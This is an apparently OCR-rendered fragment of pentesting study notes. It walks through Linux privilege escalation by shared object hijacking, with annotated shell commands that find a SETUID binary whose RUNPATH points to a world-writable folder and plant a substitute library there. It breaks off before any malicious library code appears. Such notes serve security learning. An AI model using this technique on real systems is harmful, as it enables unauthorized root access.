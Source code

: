 * Shared object hijacking:

    ```sh
    ls -la payroll
    # custom binary with SETUID bit

    ldd payroll
    # shows shared objects reqd
    # we can see a non-standard library 'libshared.so' as a dependency

    readelf -d payroll | grep PATH
    # this shows the RUNPATH config - libraries in this folder are given more preference
    # here, the '/development' folder is used

    ls -la /development
    # writable by all users

    # we can place a malicious library in this folder
    # but before compiling a library, we need to find the function name called by binary

    ldd payroll
    # non-standard shared library - /development/libshared.so

    cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
    # copying a standard, existing library

    ./payroll
    # executing the binary throws an error stating it failed to find the function 'dbquery'

    vim src.c
    # malicious code for 'dbquery' function
    